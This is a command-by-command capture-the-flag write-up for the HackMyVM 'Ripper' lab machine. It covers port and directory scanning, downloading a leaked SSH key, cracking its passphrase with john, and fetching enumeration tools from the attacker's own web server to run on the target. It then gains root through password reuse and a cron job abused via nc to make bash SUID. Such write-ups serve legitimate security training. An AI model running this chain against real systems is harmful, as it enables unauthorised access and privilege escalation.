 ### Write up for https://hackmyvm.eu/machines/machine.php?vm=Ripper ###

nmap -v -T4 -p- -sC -sV -oN nmap.log $ip  

firefox $ip
//nothing special found on the website/source code etc

nikto -h $ip

//nothing special found

feroxbuster -n -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$ip -x php,txt,html,zip,bak,htm,cgi -t 100
//nothing special 

findings
staff_statements.txt
firefox $ip/staff_statements.txt

The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files.

old ssh ? maybe id_rsa.bak

wget $ip/id_rsa.bak
chmod 600 id_rsa.bak 

ssh jack@$ip -i id_rsa.bak "jack can be found from the virtual machine"
we need the password for that id

/usr/share/john/ssh2john.py id_rsa.bak > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

password : b******s

checking for sudo -l but command not found
its linpeas time

//on new terminal 
cd ~Downloads
python3 -m http.server 80

//on the terminal that we are loged in as jack
wget {ourip}/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh

findings : 
user helder
cat /etc/***/opasswd 
password for jack 

//lets try jacks pass for user helder

su helder

//we are in

cd
cat user.txt ( user flag)

//we got user flag lets try to get root flag

//another linpeas but nothing
//lets try pspy64

wget {our ip}/pspy64
chmod +x pspy64
./pspy64

//findings
 /bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi 

echo "bash" > root
nc -lnvp 10000 < root
ls -la /usr/bin/bash

bash -p

id

// uid=1001(helder) gid=1001(helder) euid=0(root) egid=0(root) groups=0(root),1001(helder)
cd /root
cat root.txt (root flag)